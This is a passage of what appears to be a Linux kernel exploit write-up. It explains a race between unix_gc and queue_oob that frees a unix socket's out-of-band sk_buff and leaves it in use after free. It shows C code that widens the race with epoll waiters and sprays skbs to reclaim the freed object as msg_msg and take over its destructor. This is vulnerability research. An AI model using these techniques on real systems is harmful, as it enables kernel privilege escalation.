 ```C
			for (int i = 0; i < 0xc0; i++)
			{
				epfds[i] = SYSCHK(epoll_create(0x1));
			}
			for (int i = 0; i < 0xc0; i++)
			{
				for (int j = 0; j < 0x100; j++)
				{
					// queue as many as possible async waiters at timerfd waitqueue
					epoll_ctl_add(epfds[i], timefds[j], 0);
				}
			}
			write(cfd[1], buf, 1);
			raise(SIGSTOP); // stop here for nothing and just keep epoll alive
		}
		// sync to make sure it has queue what we need
		read(cfd[0], buf, 1);
	}
	close(cfd[0]);
	close(cfd[1]);
}
```

## Race between unix_gc with queue_oob

sk_buff's refcount is named as users. When sk_buff will be freed if users==1 while calling kfree_skb.  
Unix socket oob_skb's users has two. One is for stored in unix_sock->oob_skb and another is for sock->sk_receive_queue.
We use two threads to cause race between unix_gc and queue_oob in the following condition.

Thread A                 		      | Thread B
----------------------------|------------------------------
queue_oob() // users == 2 <br> consume_skb() // users == 2 -> 1 | unix_gc()
<br> | if (u->oob_skb)  // users == 1 <br> kfree_skb(u->oob_skb) // free skb
WRITE_ONCE(ousk->oob_skb, skb) | 
<br> | unix_release_sock() <br> skb = skb_dequeue(&sk->sk_receive_queue) <br> kfree_skb(skb); // skb UAF

## Reclaim SKB with msg_msg to control destructor

sk_buff is under `skbuff_head_cache` with size `0xe0`
```
gef➤  p sizeof(struct sk_buff)
$1 = 0xe0
```
With cross-cache tech, we can reclaim victim skb as msg_msg which is under `kmalloc-cg-256` cache like following example code.

* Allocate a lot skbs between victim
```c
		// Allocate some sk_buff before oob_skb
		for (int i = 0; i < 0x200; i++)
			SYSCHK(send(datafd[1], buf, 1, 0));

		SYSCHK(send(victim_fd[1], buf, 1, MSG_OOB));

		// Allocate some sk_buff after oob_skb
		for (int i = 0; i < 0x200; i++)
			SYSCHK(send(datafd[0], buf, 1, 0));

```
